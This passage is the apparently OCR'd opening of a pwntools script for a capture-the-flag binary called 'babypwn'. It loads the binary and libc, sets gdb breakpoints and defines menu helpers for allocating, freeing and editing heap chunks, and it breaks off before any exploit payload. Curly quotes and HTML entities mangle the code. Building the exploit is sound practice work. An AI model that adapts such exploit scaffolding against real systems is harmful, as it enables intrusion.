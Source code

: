 from pwn import *

from time import sleep

from os import popen

context.arch = “amd64”

# context.log_level = “debug”

elf = ELF(“./babypwn”, checksec = False)

#  libc = elf.libc

libc = ELF(“./libc.so.6”, checksec = False)

​

def DEBUG():

    cmd = ”’

    bpie 0xE69

    bpie 0x10CB

    bpie 0xD90

    bpie 0xF9A

    c

    ”’

    gdb.attach(io, cmd)

    sleep(0.5)

​

def add(size):

    io.sendlineafter(“&gt;&gt;&gt; \n”, “1”)

    io.sendlineafter(“size:\n”, str(size))

​

def delete(idx):

    io.sendlineafter(“&gt;&gt;&gt; \n”, “2”)

    io.sendlineafter(“index:\n”, str(idx))

​

​

def edit(idx, cont):

    io.sendlineafter(“&gt;&gt;&gt; \n”, “3”)
